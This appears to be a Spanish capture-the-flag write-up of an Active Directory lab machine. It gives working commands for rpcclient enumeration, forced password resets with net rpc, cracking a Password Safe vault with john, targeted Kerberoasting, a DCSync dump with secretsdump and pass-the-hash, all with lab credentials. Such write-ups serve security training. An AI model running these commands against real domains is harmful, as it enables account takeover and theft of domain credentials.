


## Enumeración 

Iniciamos nuestro proceso de enumeracion haciendo un scaneo de puertos con nmap, en esta ocacion nos lista un monton de puertos abiertos, esto nos da a entender que estamos enfrentandonos a Un directorio activo.


Esto nos da un dominio que tendremos que agregar a nuestro _/etc/host_, hice un scaneo con los scripts basicos de nmap pero no me reporto nada, a que vamos a empezar a enumerar usuarios, grupos y permisos que tenemos como el usuario **Olivia**


Tenemos acceso de lectura a recursos compartidos y capacidad de conexion remota al Domain Controller mediante WinRm, esta informacion no nos repota mucho la verdad, estube echandole un vistazo por encima porque sabia que por ahi no iba la maquina pero no habia nada. Ahora listaremos lso usuarios y grupos que tenemso 


##### Listar usuarios
```bash
rpcclient -U "Olivia%ichliebedich" 10.10.11.42 -c "enumdomusers" \
    | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]'

```
    Administrator
    Guest
    krbtgt
    olivia
    michael
    benjamin
    emily
    ethan
    alexander
    emma

##### Listar grupos
```bash
rpcclient -U "Olivia%ichliebedich" 10.10.11.42 -c "enumdomgroups" \ 
    | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]'
```

    Enterprise Read-only Domain Controllers
    Domain Admins
    Domain Users
    Domain Guests
    Domain Computers
    Domain Controllers
    Schema Admins
    Enterprise Admins
    Group Policy Creator Owners
    Read-only Domain Controllers
    Cloneable Domain Controllers
    Protected Users
    Key Admins
    Enterprise Key Admins
    DnsUipdateProxy


###### ldapdomaindump

Como de costumbre con ldapdomaindump listaremos el directorio activo con las credenciales de olivia, esto nos ayudara a hacernos un esquema mental y hacia donde ir en la maquina 

```bash
ldapdomaindump 10.10.11.42 -u 'administrator.htb\olivia' \
    -p 'ichliebedich' -n 10.10.11.42
```
Esto nos descargar los archivos necesarios para montar un servidor en local con [python](# "python3 -m http.server 80") y poder ver la informacion listada.


Pertenecemos al grupo Remote Management Users esto nos da un indicio de que nos estaremos movientro esos usuarios.


## Reconocimiento


#### BloodHound

Ya teneiendo nuestros usuarios y grupos listados ahora con [BloodHound](# "Herramienta de reconocimiento que analiza Active Directory y muestra relaciones entre usuarios, grupos y equipos para identificar posibles rutas de ataque") veremos como ir ascendiendo en el directorio activo, de que usuarios podemos ir aprovechandonos y hasta donde podemos llegar.

##### Outbound Object Control

Listando desde el usuario Olivia tenemos un short path hasta el usuario benjamin.


En esta caso es bastante comodo ya que usaremos la ,misma tecnica para ambas [Force Change Password ](# "Permiso en Active Directory que permite a un usuario o grupo cambiar la contraseña de otra cuenta sin conocer la actual."). podriamos tambien jugar con [Targeted Kerberoast](# "Técnica de ataque en AD que solicita tickets de servicio Kerberos para cuentas específicas y luego intenta crackear sus contraseñas offline.") pero ya que podemos cambiar el password, bajo mi prespectiva es mucho mas sencillo 

###### Force Change Password

Este ataque se ejecuta de una manera muy sencilla.

Para cambiar le contraseña a michel, tendremos que proporcionar las credenciales de Olivia

```bash
net rpc password "michael" "newP@ssword2022" \
    -U "administrator.htb/olivia%ichliebedich" -S "administrator.htb"
```
Podemos verificar si la contraceñas se ha cambiado con nxc.


Tenemos acceso a recursos comportidos y capacidad para conexion remota, esto quiere decir que efectivamente hemos cambiado la contreseña al usuario michel.

A si que ahora se la cambiaremos al usuario Benjamin con las credenciales que hemos obtenido.

```bash
net rpc password "benjamin" "newP@ssword2022" \ 
    -U "administrator.htb/michael%newP@ssword2022" -S "administrator.htb"
```


En este paso la verdad me perdi un poco, no entendia mucho lo que pasaba, miraba y miraba por los recursos compartidos pero no encontraba nada. Hasta que me devolvi a los puertos abiertos y vi que el ftp estaba abierto, a si que viendo que no me quedaba de otra, me decante por esta.

## Explotacion

##### Psafe3 


Cuando entre al FTP me encontre este archivo [Psafe3](# "Un archivo .psafe3 es un almacén cifrado de contraseñas, usado para proteger información sensible de accesos no autorizados."), a si que investigando un poco vi que hay una herramienta que te permite abrir archivos .psafe3, aca dejo el [repositorio](https://github.com/watsoncj/password-safe-cli).


<snap style="font-size:12px">_Comando en la terminal **pwsafe**_</span>

Nos pide una contraseña la cual no tenmos, pero tenemos una herramienta llama [pwsafe2john](# "Utilidad de John the Ripper que convierte bases de datos de Password Safe (.psafe3) en hashes crackeables.")
```bash
pwsafe2john Backup.psafe3
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050
```
Imprtamos este hash a aun archivo que luego crakearemos con john.

##### Crack hash

```bash
john -w=/usr/share/wordlists/rockyou.txt hash
```
El cual nos devilvera la contraceña para acceder **_tekieromucho_**


##### Dentro De pwsafe

Para entrar tenemos que pasar el el path del archivo .psafe3 y la contraceña que hemos obtenido anterioirmente.

Una vez dentro nos encrontraremois con tres nombres, pero si recordamos lo que nos listo ldapdomaindump nos da la pista de cual es el usuario correcto para conectarnos remotamente.


Le damos a Edit Entry y ahi podremos ver la contraceña en texto claro.


Tenemos permiso para listar archivos compartidos y conexion remota. Al conectarnos con Evil-WinRm podemos obtener nuestra primera flag en el escritorio del usuario Emily.



A si que volveremos a BloodHound e inspecionaremos que permisos y posivilidades tenemso a la hora de ser el usuario Emily y esto indica que ya estamos cerca de el Administrador

#### Emily ⟶ Ethan ⟶ Administrator

 **Emily ⟶ Ethan**


Con esta herramienta obtendremos un hash que luego crakearemos facilmente con john.

```python
python3 targetedKerberoast.py -v -d 'administrator.htb' \
    -u 'Emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

###### Rompiendo el hash

Una vez mas, estaremos usando john para crakear el hash, cuando targetedKerberoast.py nos de el hash lo vamos a huardar en un archivo con el nombre que tu quieras

```bash
john -w=/usr/share/wordlists/rockyou.txt hash
```


Listemos los permisos que tiene _**Ethan**_ 


No Podemos rascar mas pero.... como simepre podemos seguir escalando en BloodHound.


**Ethan ⟶ Administrator**


Esta ves estaremos utilizando una tequina un poco mas avanzada, pese a que la linea de comandos lo automatiza todo, siento que siempre es una buena practica entener que hace la herramienta que estamos usando por detras.

- Estaremos abusando de privilegios del AD tales como, [Replicanting Directory Changes](# "Permiso de Active Directory que permite a un usuario consultar cambios en el directorio; si se abusa, posibilita ataques como DCsync para extraer hashes de contraseñas.") para simular ser un [Domain Controller](# "Permiso de Active Directory que permite a un usuario consultar cambios en el directorio; si se abusa, posibilita ataques como DCsync para extraer hashes de contraseñas.").

- Esto nos posibilita pedir al _Dc_ contraceñas de cualquier usuario, inclido el admin.

```java
python3 secretsdump.py 'administrator.htb/ethan:limpbizkit@administrator.htb'
```


Para tomar el hash correcto cabe aclarar que tendremos que coger la segunda parte despues de los dos puntos, que es el hash como tal, la primera parte es el LAN Manager Hash y es un metodo antiguo que ya no es valido, igual con la segunda parte se puede hacer Pass-The-Hash, que es la tecnica que usaremos ahora.


Al conectarnos con Evil-WinRm obtendremos la Root.txt

## FIN.


